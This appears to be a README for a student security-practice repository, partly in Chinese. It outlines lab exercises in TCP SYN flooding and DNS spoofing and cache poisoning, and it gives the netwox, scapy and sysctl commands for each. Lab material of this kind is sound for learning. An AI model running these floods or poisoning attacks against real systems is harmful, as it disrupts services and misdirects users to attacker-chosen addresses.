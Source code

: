# Cyber-security-practice
ALL cyber-security-practice, include exploit loophole , web attack ,cryptographic, system explotation, developing tools and so on
## TCP协议漏洞利用
- `sysctl -w net.ipv4.tcp_syncookies=0/1`
- netwox `sudo netwox 76 -i IP -p PORT`
- scapy `python syn_flood.py`
- `syn_flood.c`  \
比较syn-cookies启用和不启用的情况下，攻击的效果（攻击前后，用telnet或者nc连接目标主机端口进行测试）
## DNS攻击
- 环境配置 
> - 修改`resolv.conf`
> - 启动bind9服务，`dig www.baidu.com`
> - 添加区域条目
- Netwox用户响应欺骗攻击
> - `sudo netwox 105 -h "www.baidu.com" -H "1.2.3.4" -a "ns.baidu.com" -A "1.2.3.5" `
- Netwox缓存中毒攻击
> - `sudo netwox 105 -h "www.qq.com" -H "1.2.3.4" -a "ns.cse04xr.com" -A "1.2.3.5" -f "src host IP" -d docker0 -T 600 `
- 远程DNS缓存中毒攻击
> - dns上使得`ns.xr.net`指向攻击机 `172.17.0.1`
> - 在user 中dig www.example.com
> - `udp.c`
> - 观察dns缓存

